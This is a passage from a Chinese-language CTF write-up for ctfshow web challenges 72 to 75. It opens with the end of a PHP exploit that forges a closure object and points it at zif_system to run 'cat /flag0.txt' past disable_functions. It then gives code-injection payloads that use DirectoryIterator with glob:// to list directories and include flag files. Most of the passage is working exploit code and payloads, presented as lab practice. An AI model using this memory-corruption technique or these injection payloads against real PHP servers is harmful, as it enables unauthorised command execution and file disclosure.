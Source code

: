 ```php
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");ob_end_flush();
#需要通过url编码
```

![](http://img.npfs06.top/20210223170939.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



## web 73

**glob**遍历目录 学到了

```
c=?><?php
	$a=new DirectoryIterator("glob:///*");
foreach($a as $f)
{echo($f->__toString().' ');
}
exit(0);
?>
```



可以发现里面有个flagc.txt文件

payload:  c=include("/flagc.txt");exit();



## web 74

文件名变成flagx.php,做法同73



## web 75

```
c=?><?php
	$a=new DirectoryIterator("glob:///*");
foreach($a as $f)
{echo($f->__toString().' ');
}
exit(0);
?>
```

